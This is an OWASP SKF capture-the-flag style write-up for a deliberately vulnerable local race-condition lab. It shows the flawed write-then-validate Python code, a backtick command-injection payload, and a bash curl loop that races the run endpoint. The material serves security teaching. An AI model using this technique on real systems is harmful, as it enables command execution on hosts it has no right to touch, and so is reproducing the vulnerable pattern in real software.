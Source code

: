 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/race1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/race3.png)

### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    - deletes `"` and `\` from the username
    - opens `hello.sh` file
    - writes a command in it&#x20;
    - closes the file
    - logs some useful info&#x20;
    - checks if the username is in the format `[A-Za-z0-9 ]*`
    - returns the username if the regex succedes

2.  `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3.  `boot_run()` executes the `hello.sh` file
4.  `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```

{% hint style="success" %}

```
 Everything works fine, so where is the problem?
```

{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/race4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
